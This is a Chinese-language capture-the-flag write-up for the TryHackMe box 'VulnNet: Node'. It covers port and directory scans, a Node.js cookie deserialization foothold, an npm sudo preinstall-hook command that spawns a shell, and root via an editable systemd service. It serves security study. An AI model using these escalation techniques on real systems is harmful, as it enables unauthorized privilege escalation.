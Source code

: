 ```yaml
---
sidebar_position: 71
tags: [Easy, Linux, 反序列化, NodeJs, SUDO, service]
title: "VulnNet: Node"
description: "VulnNet: Node"
sidebar_label: "VulnNet: Node"
slug: /tryhackme/71
---
```

# VulnNet: Node
## 端口扫描

```bash
root@ip-10-10-208-99:~/vulnnetnode# nmap -sTCV -p 8080 --min-rate 1000 10.10.78.101

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-06 01:12 BST
Nmap scan report for ip-10-10-78-101.eu-west-1.compute.internal (10.10.78.101)
Host is up (0.000094s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Node.js Express framework
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!
MAC Address: 02:2D:05:35:9D:E9 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
## 8080
```bash
root@ip-10-10-208-99:~/vulnnetnode# gobuster dir -u http://10.10.78.101:8080/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.78.101:8080/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2023/09/06 01:16:27 Starting gobuster
===============================================================
/img (Status: 301)
/login (Status: 200)
/css (Status: 301)
/Login (Status: 200)
/IMG (Status: 301)
/CSS (Status: 301)
/Img (Status: 301)
/LogIn (Status: 200)
/LOGIN (Status: 200)
```

访问此站点, 在首页帖子中, 提到关于 Node JS 的漏洞,  那么这个服务器对应的应该就是 Node JS, 同时我发现一个登陆窗口, 我在此审阅一番后, 并没有发现信息泄露等漏洞, 抓包查看, 我发现其 Cookie 构造很有意思, 本来我想的是基于 Cookie 的用户判断, 但是尝试一番后无果, 在查看 WP后, 发现是一个反序列化漏洞 [Node.js Deserialization Attack](https://exploit-notes.hdks.org/exploit/web/security-risk/nodejs-deserialization-attack/)

![20240703191326](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703191326.png)

## 后渗透
### www
利用上面的方法可以构造一个反序列化 payload 直接使用即可

![20240703191636](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703191636.png)

### www —> serv-manage
我发现用户 www 具有 serv-manage 的 SUDO 特权

![20240703191648](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703191648.png)

经过查找发现了其利用方式 [npm#sudo](https://gtfobins.github.io/gtfobins/npm/#sudo)

```bash
(remote) www@vulnnet-node:/home$ TF=$(mktemp -d)
(remote) www@vulnnet-node:/home$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
(remote) www@vulnnet-node:/tmp/tmp.ZOynUEzgbh$ chmod 777 package.json 
(remote) www@vulnnet-node:/tmp$ chmod 777 tmp.ZOynUEzgbh/
```

![20240703191727](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703191727.png)

### serv-manage —> root
接着我发现用户 serv-manage 具有 root 用户的 [sudo 特权](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#timers)

![20240703191811](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703191811.png)

参照上面的教程我进行了利用

```bash
\[\](remote)\[\] \[\]serv-manage@vulnnet-node\[\]:\[\]/tmp/tmp.ZOynUEzgbh\[\]$ locate vulnnet-auto.timer
/etc/systemd/system/vulnnet-auto.timer
\[\](remote)\[\] \[\]serv-manage@vulnnet-node\[\]:\[\]/tmp/tmp.ZOynUEzgbh\[\]$ ls -al /etc/systemd/system/vulnnet-auto.timer
-rw-rw-r-- 1 root serv-manage 167 Jan 24  2021 /etc/systemd/system/vulnnet-auto.timer
\[\](remote)\[\] \[\]serv-manage@vulnnet-node\[\]:\[\]/tmp/tmp.ZOynUEzgbh\[\]$ cat /etc/systemd/system/vulnnet-auto.timer
[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
**Unit=vulnnet-job.service**

[Install]
WantedBy=basic.target
\[\](remote)\[\] \[\]serv-manage@vulnnet-node\[\]:\[\]/tmp/tmp.ZOynUEzgbh\[\]$ locate vulnnet-job.service
/etc/systemd/system/vulnnet-job.service
\[\](remote)\[\] \[\]serv-manage@vulnnet-node\[\]:\[\]/tmp/tmp.ZOynUEzgbh\[\]$ ls -al /etc/systemd/system/vulnnet-job.service
-rw-rw-r-- 1 root serv-manage 197 Jan 24  2021 /etc/systemd/system/vulnnet-job.service
\[\](remote)\[\] \[\]serv-manage@vulnnet-node\[\]:\[\]/tmp/tmp.ZOynUEzgbh\[\]$ cat /etc/systemd/system/vulnnet-job.service
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
**ExecStart=/bin/df**

[Install]
WantedBy=multi-user.target
```

发现满足可利用的条件, 通过修改 **vulnnet-job.service** 文件内容进行利用即可

![20240703191848](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703191848.png)
